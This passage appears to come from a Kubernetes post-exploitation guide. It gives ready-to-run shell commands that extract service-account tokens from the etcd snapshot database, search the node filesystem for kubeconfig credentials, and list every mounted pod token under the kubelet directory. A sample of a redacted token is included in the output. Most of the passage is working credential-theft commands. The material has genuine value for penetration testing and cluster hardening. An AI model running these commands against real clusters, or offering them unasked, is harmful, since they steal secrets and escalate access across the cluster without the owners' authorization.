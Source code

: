 **Extract the tokens from the database and show the service account name**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
Output:
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```


## Look for kubeconfigs in the host filesystem 

By default, nodes don't have `kubectl` installed. If you are lucky though, an administrator tried to make their life (and yours) a little easier by installing `kubectl` and their highly privileged credentials on the node. We're not so lucky on this GKE node 

**Some ideas:**
```bash
find / -name kubeconfig
find / -name .kube
grep -R "current-context" /home/
grep -R "current-context" /root/
```

## Grab all tokens from all pods on the system
You can access any secret mounted within any pod on the node you are on. In a production cluster, even on a worker node, there is usually at least one pod that has a mounted *token* that is bound to a *service account* that is bound to a *clusterrolebinding*, that gives you access to do things like create pods or view secrets in all namespaces. 

Look for tokens that have permissions to get secrets in kube-system. The examples below automate this process for you a bit:

**Simply list the namespace and location of every token**
```bash
kubectl exec -it priv-and-hostpid-exec-pod -- bash
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; \
for token in $tokens; \
do parent_dir="$(dirname "$token")"; \
namespace=`cat $parent_dir/namespace`; \
echo $namespace "|" $token ; \
done | sort
```

**What does `can-they.sh` do?**
